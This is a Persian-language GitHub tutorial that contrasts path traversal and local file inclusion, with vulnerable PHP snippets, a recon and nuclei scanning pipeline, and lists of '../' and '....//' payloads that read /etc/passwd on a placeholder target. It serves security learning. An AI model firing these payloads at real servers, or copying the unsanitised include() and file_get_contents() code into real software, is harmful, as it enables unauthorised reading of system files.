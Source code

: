 # Path-Travel-or-Directory-Traversal-AND-Local-File-Inclusion-LFI-


- آسیب‌پذیری‌های **Path Traversal** (یا **Directory Traversal**) و **Local File Inclusion (LFI)** به هم مربوط هستند، ولی تفاوت‌های مهمی دارند.

## بررسی **Path Traversal:**

### **Path Traversal** (دسترسی به مسیر یا پیمودن دایرکتوری):
- در این نوع آسیب‌پذیری، مهاجم می‌تواند مسیر فایل‌ها را دستکاری کند تا به فایل‌ها یا دایرکتوری‌هایی که خارج از دایرکتوری‌های مجاز هستند دسترسی پیدا کند. مثلا، مهاجم می‌تواند با استفاده از `../` به فایل‌های حساس (مثل `/etc/passwd` در سیستم‌های مبتنی بر Linux) دسترسی پیدا کند. این آسیب‌پذیری فقط امکان دیدن محتوای فایل‌ها را می‌دهد و شامل اجرای آن‌ها نیست.
- چطور پیدا کنیم؟
    - فرض کنید یک URL به این صورت را می‌بینیم:

    ```yaml
    https://target.com/vocational/download.php?filename=wjdncjwnjdekcnwdc.pdf
    ```

    حالا شما می‌آیید با استفاده از `/etc/passwd` شروع می‌کنید به گشتن:

    ```yaml
    https://target.com/vocational/download.php?filename=/etc/passwd
    ```

    حالا که پیدا نشد باید با استفاده از `../` بیایم مراحل زیر را بریم:

    ```yaml
    https://target.com/vocational/download.php?filename=/etc/passwd
    https://target.com/vocational/download.php?filename=../etc/passwd
    https://target.com/vocational/download.php?filename=../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../../../etc/passwd
    Or
    https://target.com/vocational/download.php?filename=....//etc//passwd
    https://target.com/vocational/download.php?filename=....//....//etc/passwd
    https://target.com/vocational/download.php?filename=....//....//....//etc/passwd
    https://target.com/vocational/download.php?filename=....//....//....//....//etc/passwd
    Or
    https://target.com/vocational/download.php?filename=../etc/passwd.pdf
    https://target.com/vocational/download.php?filename=../../../etc/passwd.pdf
    and ...
    ```

### بررسی **Local File Inclusion (LFI)** (گنجاندن فایل محلی):
- در آسیب‌پذیری LFI، مهاجم می‌تواند فایل‌های موجود در سیستم را در چارچوب اجرای برنامه شامل کند. مثلا، اگر ورودی کاربر بدون فیلتر به عنوان مسیر فایل استفاده شود، مهاجم می‌تواند فایل‌های حساس یا حتی فایل‌هایی که کد اجرایی دارند را در برنامه لود کند. این امر می‌تواند به اجرای کد مخرب در سیستم منجر شود.

## **تفاوت و شباهت‌ها:**
- در **Path Traversal** و **LFI** هر دو به دستکاری در مسیر فایل‌ها وابسته هستند، ولی LFI به طور خاص شامل **گنجاندن و احتمالا اجرای فایل‌ها** است، در حالی که Path Traversal فقط برای **دیدن محتوای فایل‌ها** است.
- در **Path Traversal** معمولاً به دیدن محتوای محدود می‌شود، ولی **LFI** می‌تواند به اجرای کد مخرب منجر شود، به خصوص اگر فایل‌های محلی کد اجرایی داشته باشند.

## به طور خلاصه:
- از **Path Traversal**: برای دیدن محتوای فایل‌های حساس استفاده میشه .
- از **LFI**: برای گنجاندن و احتمالا اجرای فایل‌های محلی در چارچوب برنامه که می‌تواند خطرات بیشتری مثل اجرای کد مخرب داشته باشد استفاده میشه . 

## در اینجا مثالی می‌آورم که تفاوت بین **Local File Inclusion (LFI)** و **Path Traversal** را نشان دهد:

### **مثال LFI:**

فرض کنید که یک وب‌سایت پارامتری به نام `file` را دریافت می‌کند که فایل‌های موجود در سرور را در صفحه نمایش می‌دهد. مثلا:

    https://example.com/index.php?file=about.html    



در این کد، ورودی کاربر مستقیماً برای لود کردن فایل استفاده می‌شود:

```yaml
<?php
include($_GET['file']);
?>
```


اگر مهاجم به جای about.html مسیر ../../etc/passwd را وارد کند:

    https://example.com/index.php?file=../../etc/passwd

##### این کد سعی می‌کند فایل /etc/passwd را لود و اجرا کند و محتوای آن را به کاربر نشان دهد. اگر فایل دارای کد PHP باشد، می‌تواند به وسیله سرور اجرا شود و به اجرای کد مخرب منجر شود.



### مثال Path Traversal:

##### در Path Traversal، مهاجم فقط به دنبال مشاهده فایل‌ها است و نه اجرای آن‌ها. برای مثال:
    https://example.com/view-file?path=../../etc/passwd

اگر این پارامتر بدون بررسی استفاده شود:
```
<?php
$file = $_GET['path'];
echo file_get_contents($file);
?>
```

#### در اینجا، فایل /etc/passwd فقط خوانده می‌شود و به خروجی چاپ می‌شود و هیچ عملیاتی روی آن انجام نمی‌شود. Path Traversal امکان دیدن فایل‌های حساس را می‌دهد، ولی نمی‌تواند کد PHP را اجرا کند.
تفاوت اصلی:

#### در LFI فایل مستقیماً توسط برنامه شامل و اجرا می‌شود که امکان اجرای کد مخرب را ایجاد می‌کند.
#### در Path Traversal فایل فقط دیده می‌شود و قابلیت اجرای کد در برنامه وجود ندارد.




-----------


 ## Methodology : 

#### LFI : 
```
subfinder -d target.com | httpx | gau | uro | gf lfi | tee target.txt 

nuclei -list target.txt -tags lfi


```




        /etc/passwd
        ../etc/passwd
        ../../etc/passwd
        ../../../etc/passwd
        ../../../../etc/passwd
        ../../../../../etc/passwd
        ../../../../../../etc/passwd
        ../../../../../../../etc/passwd
        ....//etc//passwd
        ....//....//etc/passwd
        ....//....//....//etc/passwd
        ....//....//....//....//etc/passwd
        ../etc/passwd.pdf
        ../../../etc/passwd.pdf



